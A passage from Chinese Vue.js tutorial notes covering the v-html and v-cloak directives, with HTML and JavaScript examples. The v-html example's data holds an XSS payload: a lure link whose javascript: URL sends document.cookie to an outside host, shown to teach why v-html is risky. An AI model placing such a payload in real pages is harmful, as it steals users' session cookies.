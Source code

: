 ```js
			data:{
				name:'尚硅谷',
				str:'<h3>你好啊！</h3>',
				str2:'<a href=javascript:location.href="http://www.baidu.com?"+document.cookie>兄弟我找到你想要的资源了，快来！</a>',
			}
		})
	</script>
</html>
```

### v-cloak

- 本质是一个特殊属性，Vue实例创建完毕并接管容器后，会删掉v-cloak属性
- 使用css配合v-cloak可以解决网速慢时页面展示出{{xxx}}的问题

```js
<!DOCTYPE html>
<html>
	<head>
		<meta charset="UTF-8" />
		<title>v-cloak指令</title>
		<style>
			[v-cloak]{
				display:none;
			}
		</style>
		<!-- 引入Vue -->
	</head>
	<body>
		<!-- 准备好一个容器-->
		<div id="root">
			<h2 v-cloak>{{name}}</h2>
		</div>
		<script type="text/javascript" src="http://localhost:8080/resource/5s/vue.js"></script>
	</body>
	
	<script type="text/javascript">
		console.log(1)
		Vue.config.productionTip = false //阻止 vue 在启动时生成生产提示。
		
		new Vue({
			el:'#root',
			data:{
				name:'尚硅谷'
			}
		})
	</script>
</html>
```

### v-once
